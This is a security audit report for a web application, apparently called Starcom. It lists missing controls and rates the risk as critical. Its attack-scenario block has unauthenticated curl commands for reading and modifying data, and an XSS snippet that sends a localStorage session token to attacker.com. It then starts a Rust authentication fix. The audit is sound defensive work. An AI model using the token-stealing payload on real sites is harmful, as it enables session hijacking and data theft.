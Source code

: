 #### 2. Request Size Limiting - NOT IMPLEMENTED  
- **Risk**: Memory exhaustion attacks
- **Impact**: Resource consumption vulnerabilities

#### 3. Audit Logging - NOT IMPLEMENTED
- **Risk**: No security incident detection
- **Impact**: Compliance and investigation limitations

#### 4. Session Management - BASIC ONLY
- **Current**: Stateless JWT only
- **Missing**: Session invalidation, refresh tokens
- **Risk**: Compromised tokens remain valid indefinitely

## 🚨 Risk Assessment

### Current Risk Level: CRITICAL (9.5/10)
**Reason**: False sense of security - appears protected but actually vulnerable

### Risk Factors:
1. **API Bypass**: 90% of endpoints completely unprotected
2. **Session Hijacking**: localStorage XSS vulnerability
3. **Information Leakage**: Production logging exposure
4. **Resource Exhaustion**: No DoS protection
5. **Audit Gap**: No security event logging

### Attack Scenarios:
```bash
# Scenario 1: Complete Data Access (No Authentication Required)
curl http://127.0.0.1:8081/api/v1/investigations/any-id
# Returns any investigation without authentication

# Scenario 2: Data Modification (No Authentication Required)  
curl -X PUT -d '{"title":"hacked"}' http://127.0.0.1:8081/api/v1/investigations/any-id
# Modifies any investigation without authentication

# Scenario 3: Session Theft (XSS Attack)
<script>
const sessionData = localStorage.getItem('starcom-session');
fetch('https://attacker.com/steal', {body: sessionData});
</script>
```

## 📋 IMMEDIATE ACTION PLAN (4-6 Hours)

### Phase 1: Emergency Backend Handler Security (2-3 hours)
**Goal**: Apply authentication to all 10 unprotected handlers

#### Implementation Pattern:
```rust
async fn secure_handler(
    State(service): State<Arc<InvestigationService>>,
    Path(id): Path<String>,
    req: Request,
) -> Result<Json<ApiResponse<T>>, StatusCode> {
    // 1. Extract authenticated user context
    let user_context = get_user_context(&req)?;
    
    // 2. Check permissions
    if !user_context.permissions.contains(&"required_permission".to_string()) {
        return Err(StatusCode::FORBIDDEN);
    }
    
```